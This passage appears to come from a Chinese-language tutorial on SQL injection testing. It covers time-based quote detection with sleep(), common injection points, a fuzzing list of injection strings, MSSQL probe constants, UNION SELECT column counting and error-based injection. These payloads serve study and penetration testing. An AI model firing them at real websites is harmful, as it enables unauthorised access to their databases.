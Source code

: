 2.使用sleep()函数来判断

例：?id=1' and sleep(3) \-- 。如果页面等待了三秒才刷新，那么说明`'`就是闭合符。

3.

## 2.4 注入检测

**注入点**就是可以实行注入的地方，通常是一个可以访问数据库的连接。

#### 常见注入点

-   GET/POST/PUT/DELETE 参数

-   X-Forwarded-For

-   文件名

#### Fuzz注入点

-   \' / \"
-   1/1
-   1/0
-   and 1=1
-   \" and \"1\"=\"1
-   and 1=2
-   or 1=1
-   or 1=
-   \' and \'1\'=\'1
-   - \^ \* % /

-   \<\< \>\> \|\| \| & &&

-   \~

-   !

-   @

-   反引号执行

#### 测试用常量

-   @@version

-   @@servername

-   @@language

-   @@spid

#### 测试列数

例如 [http://www.foo.com/index.asp?id=12+union+select+null,null\--](http://www.foo.com/index.asp?id=12%2Bunion%2Bselect%2Bnull%2Cnull--) ，不断增加 null 至不返回

#### 报错注入

-   select 1/0
